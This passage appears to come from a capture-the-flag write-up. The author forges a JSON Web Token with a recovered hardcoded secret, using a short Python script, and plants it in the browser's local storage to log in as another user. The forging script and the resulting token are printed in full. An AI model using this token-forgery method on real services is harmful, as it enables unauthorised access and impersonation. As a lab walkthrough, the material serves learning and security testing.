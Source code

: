 The last reference is storing the token. I don’t want to store it, I want to print it. So I’ll replace that entire line with `Console.WriteLine(tokenHandler.WriteToken(token));`.

Now I’ll Debug –> Start Without Debugging (or Ctrl+F5):

[![image-20210526210532588](https://0xdfimages.gitlab.io/img/image-20210526210532588.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210526210532588.png)

There’s a JWT! Throwing it into [jwt.io](https://jwt.io) gives the payload:

```

{
  "unique_name": "223",
  "nbf": 1622077520,
  "exp": 1622682320,
  "iat": 1622077520
}

```

Playing around a bit more (and reading a bit), it turns out that either `name` or `unique` name will work here. Also, `nbf` (“not before”) and `iat` (“issued at)”) are not needed, so I can get by with just `name` and `exp` (“expires”).

### Create JWT

Putting all of that together, I’ll create a JWT using Python:

```

#!/usr/bin/env python3          
          
import jwt
from datetime import datetime, timedelta

print(jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256"))

```

I’ll generate a token:

```

oxdf@parrot$ python genJWT.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMSIsImV4cCI6MTYxOTg2NDE0MX0.Tkq0nNGzOzvCoJgPAti9skOHvIVZHu47VF1dQsKez28

```

In the Firefox dev tools, I’ll go to Storage, Local Storage, and add a key/value for this site:

![image-20210424061647159](https://0xdfimages.gitlab.io/img/image-20210424061647159.png)

I put in JSON so that when it looks for `currentUser.token`, it gets the JWT.

